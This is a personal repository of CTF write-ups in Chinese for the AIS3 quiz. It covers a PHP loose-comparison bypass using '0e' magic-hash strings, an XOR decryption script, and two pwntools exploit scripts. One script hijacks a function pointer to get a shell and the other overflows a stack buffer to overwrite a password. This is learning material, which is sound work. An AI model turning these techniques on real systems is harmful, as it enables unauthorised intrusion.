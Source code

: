 # ctf-wirte-ups
record my write-ups
# misc1
> 送分題(忘了存flag)

# misc2
> 題目關了忘記解法

# web1
> 連線時得到http response 302
> 使用burp suite便找到flag

# web2
> 利用php == 判斷bug
> 當2個數字2是0e開頭的字串時，使用==會判斷為true
> 網路上找了一組 240610708, QNKCDZO
> 測試就得到flag

# crypto1.py
> 只要了解如何用xor做加密,便能解開這題
> 首先利用xor的特性，去找出加密的key
> 再利用找出的key，去對加密後的結果進行解密
```python
#!/usr/bin/env python
import binascii
import struct
  
encrypted = [964600246, 1376627084, 1208859320, 1482862807, 1326295511, 1181531558, 2003814564]

'''
    Since A xor B = C, we can get the result: A xor C = B.
    First, caculator A xor C get B(mask),
    and then decryptor each pattern.
'''
ais3 = 'AIS3'[::-1]
ais3 = int('0x'+binascii.hexlify(ais3), base=16)

xor_mask = encrypted[0] ^ ais3

for pattern in encrypted:
    print struct.pack('<I', pattern ^ xor_mask),
print
```
flag is AIS3{A X OR B  XOR  A E QUAL S B}

# pwn1
> 打開ida，看完程式碼
> 大概了解pwn1.bin會將讀入資料當作function去執行
> 因此只要把送一個位址進去就好，
> 又在function table中找到youcantseeme()，可以直接開啟shell
> 只是function的開始為轉成字串會有 \n 存在
> 於是選了在stack上放 sh 這行做為執行位址
> 便能取得shell(只是剛開始找不到flag，因為在/bin/pwn1/flag)
>> 0x08048613 <+9>:	push   0x804875c
```python
#!/usr/bin/env python
from pwn import *

DEBUG = not False

if DEBUG:
    r = process('pwn1.bin')
else:
    r = remote('quiz.ais3.org', 9561)

r.recvuntil(':')
r.sendline(p32(0x08048613))

if not DEBUG:
    r.sendline("cd /home/pwn1")
    r.sendline("cat flag")
    print r.recvline()

r.interactive()
r.close()

```
flag is ais3{4nn0y1n9_Wh1t3_SpAcE_CHAR4CTERS}

# pwn2
> 題目上使用者的密碼為variable password的記憶體位址
> 但在讀取使用者帳號和密碼時，存在stack buffer overflow漏洞
> 可以再輸入帳號時直接修改密碼(structure 結構帳號和密碼的位置連載一起)
> 輸入修改好的密碼後，在選1便能得到利用密碼做xor加密的密文
> 利用密碼將得的密文解密(可能是選的密碼太差導致拿到不可顯示的字元)
> 取得(2r:\x0b425\x1e \x1e2(,1-r\x1e.7$3'-.6<LKAA\x81\x18\xaa�nAAA))
> xor後得到is3{Just_a_simpl3_overflow}\r\n\x00\x00\xc0Y\xeb\xae\xfe\xfc/\x00\x00\x00hh
> 修改一下答案得到ais3{Just_a_simpl3_overflow}

```python
from pwn import *

r = remote('quiz.ais3.org', 56746)
r.recvuntil(':')
r.sendline('AAAAAAAAAAAAAAAAAAAAAAAA')
r.recvuntil(':')
r.sendline(str(0x41414141))
r.interactive()
r.close()
```
flag is ais3{Just_a_simpl3_overflow}
